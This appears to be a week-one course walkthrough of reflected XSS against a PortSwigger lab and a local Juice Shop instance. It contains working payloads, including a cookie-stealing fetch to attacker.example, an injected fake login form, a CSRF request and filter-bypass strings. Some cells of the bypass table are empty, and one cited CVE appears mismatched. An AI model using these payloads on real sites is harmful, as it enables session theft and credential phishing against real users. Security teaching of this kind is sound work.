

# Week 01: Attack walkthrough — Reflected XSS

> ⚠️ **Lab only.** Everything below targets the PortSwigger Academy lab + Juice Shop running on your machine. Do not point any of these payloads at production systems.

---

## What "reflected XSS" actually is

A server takes user-controlled input (typically a query parameter, a header, or a form field) and **reflects it back into the HTML response without escaping it**. If you can put `<script>...</script>` (or anything that triggers JS) into that input, your code runs in the victim's browser when they visit your crafted URL.

The "reflected" in the name means the payload travels with the request — there's no persistent storage of the malicious input on the server side. Compare to **stored XSS** (saved in a database, hits every viewer) in Week 06.

## Step 0: Confirm Burp is intercepting

Open the embedded browser (Proxy → Intercept → Open Browser) and visit any site. In Burp's "HTTP history" sub-tab you should see the requests appearing. If not, your proxy isn't wired up — fix that before continuing.

## Step 1: Find the reflection point

The PortSwigger lab has a blog. Each post has a comment search at `/?search=hello`. Try it:

```
GET /?search=hello HTTP/2
Host: <lab-id>.web-security-academy.net
```

In the response body, you'll see something like:

```html
<div class="search-result">
  0 search results for 'hello'
</div>
```

Your input `hello` has been reflected. That's the candidate.

> 💡 **Recognize the pattern:** the value you supplied appears unmodified inside the HTML. If it appeared HTML-escaped (`&lt;hello&gt;`), there'd be no vulnerability — the encoding is the defense.

## Step 2: Confirm reflection — break out of the context

Send a search with a special character to see if it's encoded or raw:

```
?search=hello<world>
```

Response:

```html
<div class="search-result">
  0 search results for 'hello<world>'
</div>
```

The `<` and `>` came through *unencoded*. This is the signal you're looking for. Compare to a *patched* version:

```html
<div class="search-result">
  0 search results for 'hello&lt;world&gt;'   ← properly encoded; not exploitable
</div>
```

## Step 3: Craft the payload

The simplest XSS payload is the alert:

```
?search=<script>alert(1)</script>
```

URL-encoded for the address bar:

```
?search=%3Cscript%3Ealert(1)%3C%2Fscript%3E
```

Visit the URL. If the lab is vulnerable, an alert popup appears. That's it — you've achieved arbitrary JavaScript execution in a victim's browser session.



## Step 4: Make it useful — beyond alert(1)

`alert(1)` proves the vuln. The realistic threat is stealing things from the victim's session.

### Steal cookies (when they're not HttpOnly)

```
?search=<script>fetch('https://attacker.example/'+document.cookie)</script>
```

The victim's browser sends `document.cookie` to your collector. If the session cookie is `Secure` but not `HttpOnly`, you've taken over their session.

### Phishing — inject a fake login

```
?search=<script>document.body.innerHTML='<form action=https://attacker.example/login><input name=user><input name=pass type=password><button>Sign in</button></form>'</script>
```

Replaces the page with a fake login form pointed at your server.

### CSRF on the victim's behalf

```
?search=<script>fetch('/change-email', {method:'POST',body:'newEmail=attacker@evil.com',credentials:'include'})</script>
```

Sends an authenticated request on the victim's behalf. Effective because the victim's browser already holds their session cookie.

> 💡 **Why these work:** the payload runs in the same origin as the vulnerable site, so it inherits the victim's authentication, can read the DOM, can submit forms, and can call same-origin APIs as them.

## Step 5: Bypassing weak filters

If the server tries (and fails) to filter out `<script>`:

| Filter | Bypass |
|---|---|
| Strips `<script>` exactly | `<scr<script>ipt>alert(1)</script>` (defense regex doesn't recurse) |
| Strips `script` substring | `` |
| Strips spaces | `<svg/onload=alert(1)>` |
| Encodes single quotes | Use backticks: ``  `` |
| Has a strict allow-list of tags but allows `a href` | `<a href="javascript:alert(1)">click</a>` |

The 2-line takeaway: **denylist filtering of XSS doesn't work**. Every filter has bypasses. The only real defense is contextual output encoding (see [defense.md](defense.md)).

## Step 6: Reflected XSS in Juice Shop

Try the search feature in Juice Shop:

```
http://localhost:3000/#/search?q=<iframe src="javascript:alert('xss')">
```

If you see an alert, you've found the lab's reflected XSS. Juice Shop has multiple XSS challenges of escalating difficulty (DOM, stored, mutation-based) — they're worth working through across the next several weeks.

## Variants worth knowing

| Variant | Where it lives | Notes |
|---|---|---|
| **Reflected** (this week) | Query string, headers, form params | Single-use; requires victim to click crafted link |
| **Stored** ([Week 06](../week-06-xss-deep/)) | Persisted server-side (DB) | Hits every viewer until removed |
| **DOM-based** ([Week 06](../week-06-xss-deep/)) | Client-side JS reads `location.hash` and writes to DOM | Server may never see the payload |
| **Mutation-based (mXSS)** | Browser's HTML parser re-renders sanitized HTML as executable | Sneaky; bypasses many sanitizers |
| **Self-XSS** | Pasting payload into your own browser's console | Not a real bug, but ubiquitous as a phishing vector |

## Real-world bug examples

- [**CVE-2023-49103** (ownCloud)](https://www.cve.org/CVERecord?id=CVE-2023-49103) — illustrative of how reflected user input ends up in unsafe contexts in real apps
- [**HackerOne — reflected XSS at PayPal**](https://hackerone.com/reports/198945) — a public disclosure example showing the lifecycle from finding to fixing

## Common mistakes when learning

- **Stopping at `alert(1)`** — that proves the vuln; do the realistic exploit chain too, so you understand the impact.
- **Forgetting URL encoding** — payloads need to be URL-encoded when in query strings or the browser interprets them.
- **Not checking the response context** — XSS is *context-sensitive*. Payload that works in HTML body fails inside `<script>`, inside an attribute, inside a URL, etc.
- **Ignoring CSP** — many modern apps set Content Security Policy headers; we'll defeat those in Week 06.

Now read [defense.md](defense.md) for the other side of this — what stops it.
